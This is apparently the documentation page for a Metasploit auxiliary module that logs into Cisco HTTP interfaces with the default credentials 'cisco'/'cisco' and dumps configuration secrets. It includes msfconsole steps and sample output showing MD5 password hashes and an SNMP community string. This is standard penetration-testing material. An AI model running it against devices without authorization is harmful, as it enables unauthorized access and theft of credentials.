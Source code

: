 ## Description

  This module scans for the presence of the HTTP interface for a cisco device and attempts to enumerate it using basic authentication.

## Vulnerable Application

  Any Cisco networking device with the HTTP inteface turned on.

## Verification Steps

  1. Enable the web interface on a cisco device `ip http server`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/cisco_device_manager```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```run```

## Options

  **HttpUsername**

  Username to use for basic authentication.  Default value is `cisco`

  **HttpPassword**

  Password to use for basic authentication.  Default value is `cisco`

## Scenarios

### Tested on Cisco UC520-8U-4FXO-K9 running IOS 12.4

  ```
  msf5 > use auxiliary/scanner/http/cisco_device_manager 
  msf5 auxiliary(scanner/http/cisco_device_manager) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf5 auxiliary(scanner/http/cisco_device_manager) > set vebose true
  vebose => true
  msf5 auxiliary(scanner/http/cisco_device_manager) > run
  
  [+] 2.2.2.2:80 Successfully authenticated to this device
  [+] 2.2.2.2:80 Processing the configuration file...
  [+] 2.2.2.2:80 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
  [+] 2.2.2.2:80 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
  [+] 2.2.2.2:80 SNMP Community (RO): public
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
